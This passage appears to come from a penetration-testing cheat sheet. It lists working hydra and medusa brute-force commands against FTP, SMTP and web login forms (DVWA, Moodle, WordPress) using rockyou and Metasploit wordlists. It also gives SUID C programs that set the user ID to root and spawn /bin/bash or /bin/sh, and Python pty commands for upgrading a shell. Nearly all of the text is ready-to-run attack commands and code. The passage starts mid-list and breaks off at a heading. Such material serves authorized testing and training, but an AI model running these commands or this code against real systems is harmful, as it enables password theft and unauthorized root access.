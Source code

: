 -   FTP user with password list
        medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp

### **Bruteforcing:**

-   hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin

-   hydra 127.0.0.1 -V -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/http_default_pass.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: security=low; PHPSESSID=rsrjkagvk9m28nh5bsgrjbpnj3" (with cookies)
    or /moodle/login/index.php:username=^USER^&password=^PASS^:F=Invalid:S=Set-cookie

-   xhydra: /wp-login.php:log=^USER^&pwd=^PWD^:Invalid username

-   hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL

-   hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp --V

    -   Hydra SMTP Brute force

**Shells & Reverse Shells** 
---------------------------

### **SUID C Shells**

-   bin/bash:



    int main(void){

    setresuid(0, 0, 0);

    system("/bin/bash");

    }

-   bin/sh:



    int main(void){

    setresuid(0, 0, 0);

    system("/bin/sh");

    }

### **TTY Shell:**

-   python -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    Ctrl-z
    stty raw -echo; fg

    export TERM=xterm

Using Python for a psuedo terminal:
